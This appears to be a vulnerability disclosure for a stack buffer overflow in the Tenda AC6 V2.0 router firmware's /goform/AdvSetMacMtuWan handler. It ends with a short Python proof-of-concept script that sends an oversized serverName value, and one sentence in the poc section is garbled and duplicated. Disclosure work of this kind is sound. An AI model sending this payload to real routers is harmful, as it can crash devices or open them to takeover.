





# Bug Report: Buffer Overflow in Tenda AC6 V2.0 15.03.06.50 Router
A critical stack-based buffer overflow vulnerability has been discovered in the Tenda AC6 V2.0 router firmware version 15.03.06.50. The vulnerability exists in the `/goform/AdvSetMacMtuWan` HTTP request handler and can be exploited by remote attackers to achieve code execution or cause denial of service through malformed HTTP requests.

## Vulnerability Details

### Product Information
- **Product**: Tenda AC6 V2.0 Wireless Router
- **Affected Version**: 15.03.06.50
- **Download Source**: https://www.tendacn.com/material/show/103316
- **Vulnerability Type**: Stack-based Buffer Overflow

## Description:
A buffer overflow exists in the HTTP request handler for the `/goform/AdvSetMacMtuWan` endpoint. This function calls `check_param_changed` to parse the HTTP request. In the `check_param_changed` function, several buffer overflows may occur when the following parameters contain excessive data lengths: `wanMTU`, `wanSpeed`, `cloneType`, `mac`, `serviceName`, `serverName`, `wanMTU2`, `wanSpeed2`, `cloneType2`, `mac2`, `serviceName2`, `serverName2`.





## poc
By sending a request to the `/goform/AdvSetMacMtuWan` endpoint, we can trace the program entering the `fromAdvSetMacMtuWan` function which calls `check_param_changed` later. In `check_param_changed`, we set a breakpoint before the `strcpy` call at line 57. By dumping the memory, we can observe that the buffer overflow occurs.fore the `strcpy` call at line 57. By dumping the memory, we could find the buffer overflow occurs.







## Reproduce
```python
#!/usr/bin/env python3
from pwn import *
import requests

def send_payload(url, payload):
    print("sending...")
    response = requests.get(url, params={'serverName': payload})
    print(f"Response status code: {response.status_code}\nResponse body: {response.text}")

payload = 0x110 * b'A' + b'DOIT'

send_payload("http://10.10.10.1/goform/AdvSetMacMtuWan", payload)
```

